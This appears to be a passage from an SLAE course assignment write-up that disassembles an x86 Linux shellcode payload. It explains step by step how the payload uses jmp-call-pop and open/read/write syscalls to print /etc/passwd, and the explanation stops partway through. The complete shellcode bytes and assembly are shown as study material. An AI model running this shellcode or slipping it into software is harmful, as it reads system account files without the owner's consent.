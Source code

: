 # Solution

If we dump the nasm code from the payload, here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

    1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

    2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

    3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

        00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, in this case, /etc/passwd).

        ![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG)
        00000008  31C9              xor ecx,ecx
        0000000A  CD80              int 0x80
        0000000C  89C3              mov ebx,eax
        0000000E  B803000000        mov eax,0x3
        00000013  89E7              mov edi,esp
        00000015  89F9              mov ecx,edi
        00000017  BA00100000        mov edx,0x1000
        0000001C  CD80              int 0x80
